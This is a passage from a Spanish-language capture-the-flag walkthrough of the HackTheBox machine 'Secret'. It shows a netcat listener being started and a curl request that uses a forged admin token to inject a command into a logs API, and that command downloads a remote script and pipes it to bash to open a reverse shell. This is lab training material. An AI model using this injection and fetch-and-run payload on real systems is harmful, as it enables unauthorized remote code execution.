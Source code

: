 ```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Secret/File/local-web/.git]
└──╼ #nc -nlvp 443
listening on [any] 443 ...
```

y realizamos una petición por  curl para ejecutar nuestro comando encodeado

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Secret/file/local-web]
└──╼ #curl -v -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWZkZTFiMDdhMzdmOTA0NjVkOTMwYjgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRoZWFkbWluQGRhc2l0aC53b3JrcyJ9.K2fiX8ai7BImNycQHMDjwd_TudCK7T6sTJeBHSzfpSA" "http://10.10.11.120/api/logs?file=;curl+http%3A%2F%2F10.10.14.139%2Frev.sh+%7C+bash";echo
*   Trying 10.10.11.120:80...
* Connected to 10.10.11.120 (10.10.11.120) port 80 (#0)
> GET /api/logs?file=;curl+http%3A%2F%2F10.10.14.139%2Frev.sh+%7C+bash HTTP/1.1
> Host: 10.10.11.120
> User-Agent: curl/7.74.0
> Accept: */*
> auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWZkZTFiMDdhMzdmOTA0NjVkOTMwYjgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRoZWFkbWluQGRhc2l0aC53b3JrcyJ9.K2fiX8ai7BImNycQHMDjwd_TudCK7T6sTJeBHSzfpSA
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 Internal Server Error
< Server: nginx/1.18.0 (Ubuntu)
< Date: Sat, 05 Feb 2022 04:20:03 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 105
< Connection: keep-alive
< X-Powered-By: Express
< ETag: W/"69-arz5VOTSEpuFprM2d67tJcixaeo"
< 
* Connection #0 to host 10.10.11.120 left intact
{"killed":false,"code":1,"signal":null,"cmd":"git log --oneline ;curl http://10.10.14.139/rev.sh | bash"}
```

y de esta manera tenemos nuestra Reverse Shell

![18.png](/assets/images/2022-05-10-Secret/18.png)

